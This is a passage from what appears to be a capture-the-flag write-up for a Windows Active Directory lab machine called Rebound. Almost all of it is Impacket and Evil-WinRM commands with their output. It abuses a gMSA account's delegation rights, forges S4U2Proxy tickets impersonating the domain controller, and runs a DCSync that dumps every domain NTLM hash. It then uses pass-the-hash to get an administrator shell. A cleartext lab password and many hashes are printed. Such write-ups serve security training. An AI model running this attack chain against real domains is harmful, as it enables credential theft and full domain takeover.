LDAP        10.129.14.17    389    DC01             [+] rebound.htb\tbrady:543BOMBOMBUNmanda 
LDAP        10.129.14.17    389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.14.17    389    DC01             Account: delegator$           NTLM: aafb74ba2eb5e5ff7003a9a54ad1f904     PrincipalsAllowedToReadPassword: tbrady
```
I have dumped the NTLM of the `delegator$` account

```python
nxc smb dc01.rebound.htb -u 'delegator$' -H 'aafb74ba2eb5e5ff7003a9a54ad1f904'
SMB         10.129.14.17    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.14.17    445    DC01             [+] rebound.htb\delegator$:aafb74ba2eb5e5ff7003a9a54ad1f904
```
This account is compromised

## Domain Admin
```python
faketime -f +7h findDelegation.py -k -no-pass rebound.htb/'delegator$'@dc01.rebound.htb -hashes ':aafb74ba2eb5e5ff7003a9a54ad1f904'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting machine hostname
[-] CCache file is not found. Skipping...
AccountName  AccountType                          DelegationType                       DelegationRightsTo     SPN Exists 
-----------  -----------------------------------  -----------------------------------  ---------------------  ----------
DC01$        Computer                             Unconstrained                        N/A                    Yes        
delegator$   ms-DS-Group-Managed-Service-Account  Constrained w/o Protocol Transition  http/dc01.rebound.htb  No
```

```python
faketime -f +7h rbcd.py 'rebound.htb/delegator$' -hashes ':aafb74ba2eb5e5ff7003a9a54ad1f904' -k -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -dc-ip dc01.rebound.htb -use-ldaps
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ldap_monitor can now impersonate users on delegator$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)
```
This set the delegation

```python
faketime -f +7h getST.py 'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate DC01$                                                                                       
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

```python
faketime -f +7h getST.py -spn http/dc01.rebound.htb -impersonate 'DC01$' 'rebound.htb/delegator$' -hashes :aafb74ba2eb5e5ff7003a9a54ad1f904 -additional-ticket DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*] 	Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
```

```python
KRB5CCNAME='DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache' faketime -f +7h secretsdump.py -no-pass -k dc01.rebound.htb -just-dc-ntlm
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:176be138594933bb67db3b2572fc91b8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1108b27a9ff61ed4139d1443fbcf664b:::
ppaul:1951:aad3b435b51404eeaad3b435b51404ee:7785a4172e31e908159b0904e1153ec0:::
llune:2952:aad3b435b51404eeaad3b435b51404ee:e283977e2cbffafc0d6a6bd2a50ea680:::
fflock:3382:aad3b435b51404eeaad3b435b51404ee:1fc1d0f9c5ada600903200bc308f7981:::
jjones:5277:aad3b435b51404eeaad3b435b51404ee:e1ca2a386be17d4a7f938721ece7fef7:::
mmalone:5569:aad3b435b51404eeaad3b435b51404ee:87becdfa676275415836f7e3871eefa3:::
nnoon:5680:aad3b435b51404eeaad3b435b51404ee:f9a5317b1011878fc527848b6282cd6e:::
ldap_monitor:7681:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
oorend:7682:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
winrm_svc:7684:aad3b435b51404eeaad3b435b51404ee:4469650fd892e98933b4536d2e86e512:::
batch_runner:7685:aad3b435b51404eeaad3b435b51404ee:d8a34636c7180c5851c19d3e865814e0:::
tbrady:7686:aad3b435b51404eeaad3b435b51404ee:114e76d0be2f60bd75dc160ab3607215:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:989c1783900ffcb85de8d5ca4430c70f:::
delegator$:7687:aad3b435b51404eeaad3b435b51404ee:aafb74ba2eb5e5ff7003a9a54ad1f904:::
[*] Cleaning up...
```
This performed the DCSync to get all the hashes

### Access as domain admin
```python
evil-winrm -i dc01.rebound.htb -u 'administrator' -H '176be138594933bb67db3b2572fc91b8'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/4/2026   1:49 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||9e51315673b573cd36afc44bb6499980||
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Full domain compromise!
